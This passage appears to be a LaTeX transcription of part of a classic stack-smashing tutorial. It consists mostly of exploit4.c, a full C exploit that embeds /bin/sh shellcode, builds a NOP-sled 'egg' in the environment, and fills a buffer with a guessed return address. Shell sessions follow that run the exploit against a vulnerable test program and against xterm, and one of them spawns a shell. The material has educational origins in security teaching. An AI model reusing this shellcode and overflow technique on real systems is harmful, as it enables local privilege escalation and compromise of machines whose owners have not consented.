 \documentclass[10pt]{article}
\begin{document}
{new exploit now looks like this:

\begin{lstlisting}[caption=exploit4.c]
#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define DEFAULT_EGG_SIZE               2048
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46"
  "\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
  "\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_esp(void) 
{
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) 
{
  char *buff, *ptr, *egg;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i, eggsize=DEFAULT_EGG_SIZE;

  if (argc > 1) bsize   = atoi(argv[1]);
  if (argc > 2) offset  = atoi(argv[2]);
  if (argc > 3) eggsize = atoi(argv[3]);
  if (!(buff = malloc(bsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  if (!(egg = malloc(eggsize))) 
  {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_esp() - offset;
  printf("Using address: 0x%x\n", addr);
  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  ptr = egg;
  for (i = 0; i < eggsize - strlen(shellcode) - 1; i++)
    *(ptr++) = NOP;

  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';
  egg[eggsize - 1] = '\0';  memcpy(egg,"EGG=",4);
  putenv(egg);
  memcpy(buff,"RET=",4);
  putenv(buff);
  system("/bin/bash");
}
\end{lstlisting}

Lets try our new exploit with our vulnerable test program: 

\begin{verbatim}
[aleph1]$ ./exploit4 768
Using address: 0xbffffdb0 
[aleph1]$ ./vulnerable $RET
$
\end{verbatim}

Works like a charm. Now lets try it on xterm: 

\begin{CJK}{UTF8}{bsmi} %
\begin{verbatim}
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit4 2148
Using address: 0xbffffdb0
[aleph1]$ /usr/X11R6/bin/xterm -fg $RET
Warning: Color name
...°¤ÿ¿°¤ÿ¿°¤ ...


\end{verbatim}
\end{CJK}}
\end{document}
